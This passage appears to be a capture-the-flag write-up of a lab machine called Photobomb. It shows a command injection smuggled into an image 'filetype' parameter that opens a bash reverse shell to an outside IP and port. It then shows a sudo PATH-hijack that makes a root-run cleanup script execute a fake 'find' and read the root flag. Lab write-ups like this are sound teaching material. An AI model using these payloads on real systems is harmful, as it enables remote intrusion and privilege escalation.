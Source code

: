    ```html
- Exploit the vulnerability: `photo=kevin-charit-XZoaTJTnB9U-unsplash.jpg&filetype=png%3B%20bash%20%2Dc%20%22bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E14%2E89%2F4444%200%3E%261%22&dimensions=1x1` (I've URL encoded the exploit `; bash -c "bash -i >& /dev/tcp/10.10.14.89/4444 0>&1"`)

    Reverse shell obtained!

<br><br>

## Privesc

I start analyzing the system with: `sudo -l`
```
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

*NOTE: `env_reset` undoes all changes to `$PATH` [https://www.sudo.ws/docs/man/1.8.13/sudoers.man/](https://www.sudo.ws/docs/man/1.8.13/sudoers.man/)*

*NOTE: `SETENV` allows you to override this by adding the `--preserve-env` option to `sudo`*

It looks like I can run the `/opt/cleanup.sh` file as root. I look at what this script does.

![cleanup](/0xhacks/assets/images/machines/Photobomb/cleanup.png)

Ok, as the name says this script cleans the log files and protects the original photos by making them accessible only to root.

But wait, the script executes find command with relative path!

This is great because I can change the `$PATH` to run as root whatever I want!

*NOTE: I can do this because we have `SETENV` permission in the file*

`export PATH="/tmp/bin:$PATH"`<br>
`mkdir -p /tmp/bin`<br>
`echo '#!/bin/bash' > /tmp/bin/find`<br>
`echo 'cat /root/root.txt > /tmp/flag' >> /tmp/bin/find`<br>
`echo 'chown wizard:wizard /tmp/flag' >> /tmp/bin/find`<br>
`chmod +x /tmp/bin/find`<br>
`sudo --preserve-env=PATH /opt/cleanup.sh`

Root flag taken!


